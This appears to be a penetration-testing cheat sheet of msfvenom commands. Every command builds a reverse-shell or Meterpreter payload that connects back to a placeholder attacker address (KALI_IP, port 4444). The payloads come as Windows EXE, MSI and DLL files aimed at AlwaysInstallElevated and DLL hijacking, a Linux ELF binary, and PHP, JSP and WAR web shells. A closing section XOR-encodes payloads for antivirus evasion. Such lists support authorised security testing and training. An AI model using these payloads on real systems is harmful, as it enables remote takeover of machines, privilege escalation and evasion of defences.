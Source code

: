 ### Windows Payloads

**Reverse shell exe:**
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=KALI_IP LPORT=4444 -f exe -o shell.exe
```

**Meterpreter exe:**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=4444 -f exe -o met.exe
```

**MSI (for AlwaysInstallElevated):**
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=KALI_IP LPORT=4444 -f msi -o exploit.msi
```

**DLL (for DLL hijacking):**
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=KALI_IP LPORT=4444 -f dll -o malicious.dll
```

### Linux Payloads

**ELF binary:**
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=KALI_IP LPORT=4444 -f elf -o shell.elf
chmod +x shell.elf
```

### Web Payloads

**PHP:**
```bash
msfvenom -p php/reverse_php LHOST=KALI_IP LPORT=4444 -f raw -o shell.php
```

**JSP:**
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=KALI_IP LPORT=4444 -f raw -o shell.jsp
```

**WAR (for Tomcat):**
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=KALI_IP LPORT=4444 -f war -o shell.war
```

### Encoding/Evasion

```bash
# Encode payload (AV evasion)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=KALI_IP LPORT=4444 -f exe -e x64/xor -i 3 -o encoded.exe

# Multiple iterations
msfvenom -p windows/x64/shell_reverse_tcp LHOST=KALI_IP LPORT=4444 -f exe -e x64/xor -i 10 -o encoded.exe
```

---